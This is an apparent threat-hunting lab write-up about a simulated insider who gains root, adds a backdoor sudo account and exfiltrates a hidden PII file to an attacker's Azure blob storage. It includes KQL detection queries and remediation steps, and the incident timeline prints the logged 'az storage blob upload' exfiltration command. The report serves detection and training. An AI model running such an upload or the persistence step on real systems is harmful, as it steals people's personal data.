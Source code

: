 # Threat Hunt Report: PII Exfiltration

---
## Platforms and Languages Leveraged

## Scenario
Company A has recently observed indications that employees' personally identifiable information (PII) may be at risk due to a string of phishing attacks. The types of data potentially exposed include home addresses, email addresses, and phone numbers. This sensitive information is stored on a Linux server in a hidden file, accessible only to users with root or sudo privileges. A recent incident was reported in which an employee was seen tampering with a computer while the root administrator had briefly stepped away. As a result, the company has launched a formal investigation.
In this lab exercise, we’ll simulate a situation where an unauthorized user gains root access to a computer and executes a script. This script performs the following actions:

--
## High Level IoC Plan
* Step 1: DeviceProcessEvents - Security team ran script to detect any instance of file script adding or modifying, script processes that can detect privilege escalations or exfiltration
* Step 2: DeviceNetworkEvents - Detect evidence of exfiltration to blob storage account
* Step 3: DeviceFileEvents - Created files created for the exfiltration



### Steps Taken
Reported to the security that they heard reports of  fellow employees “messing with computers” and that was a recently phising attempt.  Another employee alerted the security team to investigate a particular computer that had some sensitive information: Workstation1.

### Step 1 - DeviceProcess Events:
 Security team ran script to detect any instance of file script adding or modifying, script processes that can detect privilege escalations or exfiltration

 ```kql
let timePeriodThreshold = ago(3d); // Defines a point in time 3 days ago
let sensitiveGroups = dynamic(["sudo"]); // Add other groups if relevant
DeviceProcessEvents
| where DeviceName contains "Workstation1"
| where Timestamp > timePeriodThreshold
| where InitiatingProcessCommandLine contains "usermod -aG"
| where InitiatingProcessCommandLine has_any (sensitiveGroups) // Checks if the command line contains any of the sensitive group names
| project Timestamp, DeviceName,ActionType, FileName, ProcessCommandLine, FolderPath

```
<img width="975" height="155" alt="image" src="https://github.com/user-attachments/assets/e543b91e-c20f-4a29-a813-b501d25c6863" />


### Step 2 - DeviceNetworkEvents

```kql
let timePeriodThreshold = ago(3d); // Defines a point in time 3 days ago
DeviceNetworkEvents
| where DeviceName contains "Workstation1"
| where Timestamp > timePeriodThreshold
| where InitiatingProcessCommandLine contains "storage blob upload"
```
<img width="975" height="90" alt="image" src="https://github.com/user-attachments/assets/f9d7615b-3eb2-4a71-8913-283288f9626d" />


### Step 3 - DeviceFileEvents
```kql
DeviceFileEvents
| where DeviceName contains "Workstation1"
| where ActionType == "FileCreated"
| project Timestamp, DeviceName, InitiatingProcessCommandLine, InitiatingProcessParentFileName
| order by Timestamp asc
```
<img width="975" height="467" alt="image" src="https://github.com/user-attachments/assets/dff32832-a3b6-4a06-ac0f-b7ad524c6103" />


---

## Chronology Event Timeline
1.	Exfiltration script (secret_script.sh) created

Timestamp: 2025-07-01T16:20:57.836748Z
•	Event: The user creates a file called secret_script.sh through the touch command in Linux. 
•	Action: Bash script file created.
•	File Path: /home/jonUser/secret_script.sh
 

2.	Added sudo account “badactor”

Timestamp: 2025-07-01T16:23:45.630917Z
•	Event: User creates another sudo account “badactor” to be used for persistent after script runs and is deleted
•	Action: Malicious user account created
•	Folder Path:   /etc/group
 



3.	Editing Script to Exfiltrate the file to Azure Blob Account

Timestamp: 2025-07-01T16:37:34.385187Z
Event: Editing the script secret_script.sh to upload personal information to his AzureStorage account.  The script will run and then delete itself.
Action: Editing script to include details of Azure storage account
Folder Path: nano secret_script.sh
 




4.	Script Execution and Uploading Files to Azure Blob Storage
•	Timestamp: 2025-07-01T21:24:27.309826Z
•	Event: Script was executed and information was uploaded to bad actors blob storage account
•	Action: After script execution file being uploaded to bad actors cloud account
•	FilePath: /usr/bin/../../opt/az/bin/python3 -Im azure.cli storage blob upload --account-name guysblobstorage --account-key secret key removed
container-name guyscontainer1 --file /home/jonUser/.personal_information/.sensative_info.txt --name exfiltrated_data

---
## Summary

---

## Response Taken
1. Create MDE Alert for future monitoring
<img width="975" height="290" alt="image" src="https://github.com/user-attachments/assets/162f7c38-caf5-42ea-a285-18fd17554e5d" />

2. Find and delete the bad actor sudo account:
   Find sudo user:

    ```
sudo -l -U username
sudo -l -U badactor
```

<img width="975" height="142" alt="image" src="https://github.com/user-attachments/assets/2a6ea557-2cb1-41fd-a13a-694bcc778c53" />

Delete Sudo user:

```
Delete sudo user:
sudo deluser username sudo
```


